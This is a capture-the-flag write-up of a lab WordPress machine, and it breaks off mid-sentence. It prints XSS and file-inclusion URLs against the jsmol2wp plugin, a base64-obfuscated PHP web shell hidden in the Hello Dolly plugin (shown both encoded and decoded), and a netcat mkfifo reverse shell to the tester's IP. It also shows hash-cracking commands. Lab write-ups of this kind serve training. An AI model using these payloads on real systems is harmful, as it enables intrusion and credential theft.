






# Smol
## By josemlwdf

This room is a red challenge in which the description tells us directly that this is a **WordPress** website which has a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. 

## Recon

We start by doing a normal port scan with Nmap and find 2 open ports. I leave the all port scan running into the background so I can see if there's any ports that aren't visible in the top 1000, but we find nothing but the **SSH** on port **22** and the **HTTP** on port **80**.


I try to see how **port 80** is looking, but when I try to access it it tells me we can't connect to the server at **www.smol.thm**, so I go and add it at /etc/hosts.


I start navigating the main page and meanwhile, I will put a directory scan to search if we can find anything that we don't see on the main page.


If we scroll all the way down, the hint at the beggining of the challenge of it being **WordPress** is being confirmed.


To be honest, I've never done any WordPress room, or at least I can't remember one, so it's gonna be a first on my part. I tried doing a WPScan on it and this is what it returned.

```
wpscan --url www.smol.thm --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://www.smol.thm/ [10.10.222.122]
[+] Started: Wed Jul 23 12:47:11 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://www.smol.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://www.smol.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://www.smol.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://www.smol.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.7.1 identified (Outdated, released on 2024-11-21).
 | Found By: Rss Generator (Passive Detection)
 |  - http://www.smol.thm/index.php/feed/, <generator>https://wordpress.org/?v=6.7.1</generator>
 |  - http://www.smol.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.7.1</generator>

[+] WordPress theme in use: twentytwentythree
 | Location: http://www.smol.thm/wp-content/themes/twentytwentythree/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://www.smol.thm/wp-content/themes/twentytwentythree/readme.txt
 | [!] The version is out of date, the latest version is 1.6
 | [!] Directory listing is enabled
 | Style URL: http://www.smol.thm/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://www.smol.thm/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[i] User(s) Identified:

[+] Jose Mario Llado Marti
 | Found By: Rss Generator (Passive Detection)

[+] wordpress user
 | Found By: Rss Generator (Passive Detection)

[+] admin
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] think
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wp
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] gege
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] diego
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] xavi
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

We can see that **wp-content/uploads** its accessible from our so we go on the page and try to see if we can find any backups or sensitive data, but with no success.


We can see the version of WordPress that it's running on the server is **6.7.1** which is outdated, but considering the hints that we got at the description of the challenge the intended way of approaching this machine is looking at the **publicly known vulnerable plugin** so we'll search for that. We find an article stating that JSmol2WP <= 1.7 which is the version we're running is vulnerable to LFI and XSS so we'll start our exploiting phase based on that. We can also see the users that WPScan identified and could be useful later on.

---

## Exploit

I found a Git repository (https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt) refferenced in Pentest-Tools' article about the CVE (https://pentest-tools.com/vulnerabilities-exploits/wordpress-jsmol2wp-107-local-file-inclusion_2654), and it explains along with PoCs how to exploit the vulnerability found in that plugin. I firstly tested the **XSS** in the URL to see if it reflects and if the exploit is actually working:

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=%3Cscript%3Ealert(/xss/)%3C/script%3E&mimetype=text/html;%20charset=utf-8
```

Which got me this response:


**We have a hit!**

Next we will use **directory traversal** to look through the folders on the server.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

And we got this:


I tried connecting to the databse remotely but with no success. I'll try now to see what /etc/passwd and /etc/shadow say back:

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=/etc/passwd
```



We could view only the passwd file and we see that there are **6 users with home directories** on the server. After trying to connect into the log-in panel from /wp-login.php with the usernames that we found from the enumeration which none were successful I tried to login with the username from the database as well, **and we are in**.

The first thing that stands out from the rest is this:



And the first thing you see it's an **important** task for the webmaster which states:


**Bingo!**We'll go back to the jsmol2wp exploit and try to see the source code from the "Hello Dolly" plugin.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

And we see something very weird different from the original "Hello Dolly" code. This line seems very odd, let's try and see what's up with it.

```
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

I'll go on CyberChef and see what does it say exactly:


If you deobfuscate this further this would translate into:

```
if (isset($_GET["cmd"])) {
    system($_GET["cmd"]);
}
```

Firstly I tried running it directly into the /plugins/hello.php using this URL:

```
http://www.smol.thm/wp-content/plugins/hello.php?cmd=id
```

But with no success. So I reviewed the code further and saw that this isn't a standalone script, it's instead hooked into the WordPress's Admin Panel because of this:

```
add_action('admin_notices', 'hello_dolly');
```

So I tried doing this directly into the index.php folder with this payload:

```
http://www.smol.thm/wp-admin/index.php?cmd=id
```

And we got this!


Next we will try and get a reverse shell using a URL Encoded nc mkfifo shell from revshells and will use it how we used 'id' previously:

```
http://www.smol.thm/wp-admin/index.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.9.0.171%205555%20%3E%2Ftmp%2Ff
```

**And we're finally in!**


## Post-Exploitation

We finally got a reverse shell but there's still probably a long road remaining. I remembered we logged into the wp-login page using the database credentials so firstly I'm gonna try and connect to the database and maybe get some hashes from there. I try to log into mysql and we're **successful**. From there we get:



I put all the hashes in a .txt file and tried to crack them using hashcat:

```
hashcat -m 400 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

Which **successfuly returned this**:

```
$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1:redacted
```

I will firstly try and connect through SSH using that password, but after trying the server accepts only key-based authentication, so I will try to su into diego. **We got it!** I went into his home directory and found the user.txt flag there as well. Now we will start **trying to escalate our privileges to root**.



While looking through all the home directories we can find in gege's a wordpress.old.zip file on which we have no read permission. Other interesting thing is that in think's home directory we find these which we can use if we want to connect through SSH or find anything interesting using think:

```
diego@ip-10-10-38-63:/home/think/.ssh$ ls -la
total 20
drwxr-xr-x 2 think think    4096 Jun 21  2023 .
drwxr-x--- 5 think internal 4096 Jan 12  2024 ..
-rwxr-xr-x 1 think think     572 Jun 21  2023 authorized_keys
-rwxr-xr-x 1 think think    2602 Jun 21  2023 id_rsa
-rwxr-xr-x 1 think think     572 Jun 21  2023 id_rsa.pub
```

I found nothing interesting under diego's permissions so I will switch to think using the id_rsa key we found in his home directory and see if there are any missconfigurations there. I will try and use linpeas and see if anything interesting pops up. After a little bit of research we find out that think and gege belong to the same group so we can just su to gege, because there's that old zip file which I think is the key for us getting to the end of this room.

I switch to the user gege and open up a http server on his home directory so I can get the zip file on my machine, but the surprise comes when I try to unzip it and we see that it's password protected:

```
┌──(piscu㉿piscu)-[~/random]
└─$ unzip wordpress.old.zip 
Archive:  wordpress.old.zip
   creating: wordpress.old/
[wordpress.old.zip] wordpress.old/wp-config.php password:
```

I used zip2john to convert it into the format that John knows, and used him to crack it, and guess what, **we got it**.

I unzipped it and went straight to wp-config.php where we found this:



I thought it was just another lateral movement but when I su'd into xavi and saw this:




